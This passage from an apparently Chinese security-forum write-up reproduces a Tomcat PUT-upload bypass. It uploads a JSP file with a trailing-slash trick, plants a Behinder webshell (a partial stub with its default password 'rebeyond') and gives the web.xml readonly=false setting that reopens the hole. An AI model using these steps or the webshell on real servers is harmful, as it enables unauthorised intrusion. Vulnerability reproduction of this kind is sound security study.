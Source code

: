 可以看到上传a001.jsp 是成功绕过了

![1619280114887](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-224b64b88a7e7777f9418aa0d9af7d441ea4290c.png)

![1619280208227](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-b566be029a888284752ebc7b467b60857b87ef30.png)

其他两种我就不进行演示了

都是可以的

上传马儿，这边我用冰蝎进行连接

**注意：不能开代理**

看看冰蝎server目录下的jsp马儿

![1619280600919](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-06144ac56a4f0c947a792f1959470b85b7d3d583.png)

![1619280689842](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-2ee00bca0599421b0c49b9c6ede2f32b55da2d3c.png)

冰蝎的jsp马儿

```php
<%@page import="java.util.*,javax.crypto.*,javax.crypto.spec.*"%><%!class U extends ClassLoader{U(ClassLoader c){super(c);}public Class g(byte []b){return super.defineClass(b,0,b.length);}}%><%                                                                                                                                                                                                                                                                                                                                                   %>
```

```php
/*该密钥为连接密码32位md5值的前16位，默认连接密码rebeyond*/
```

注意这边要用`/`进行绕过,上传jsp

![1619281552614](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-a2d34419d8b29a4cec224985410c1888d50f265f.png)

也可以看到是成功上传的

![1619281576850](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-9f932d206b7eec734f8fb1321847d073e7d3dfb4.png)

![1619281594138](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-a4cc95f7859f62e289ed10ddfc22c0340f81172e.png)

用冰蝎进行连接一下

![1619281681804](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-5705756e2e6309d906ee237a53bc82db757cc22c.png)

##### 最新版本复现

这边把这个漏洞的代码 粘贴进最新的版本

不加的话 PUT 上传txt都是不可以的

```php
<init-param>
 <param-name>readonly</param-name>
 <param-value>false</param-value>
</init-param>
```
